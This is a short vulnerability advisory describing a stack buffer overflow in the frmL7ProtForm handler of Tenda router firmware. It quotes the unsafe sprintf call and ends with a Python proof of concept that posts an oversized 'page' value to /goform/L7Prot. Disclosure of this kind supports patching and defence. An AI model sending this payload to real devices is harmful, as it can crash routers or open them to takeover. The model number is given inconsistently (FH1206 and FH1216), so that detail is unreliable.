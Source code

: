 # frmL7ProtForm

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **frmL7ProtForm** function. The function receives the `page` parameter from a POST request. `   sprintf(v15, "firewall_proto_list.asp?page=%s", v10);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v15` array, thereby triggering this security vulnerability.




## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/L7Prot"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

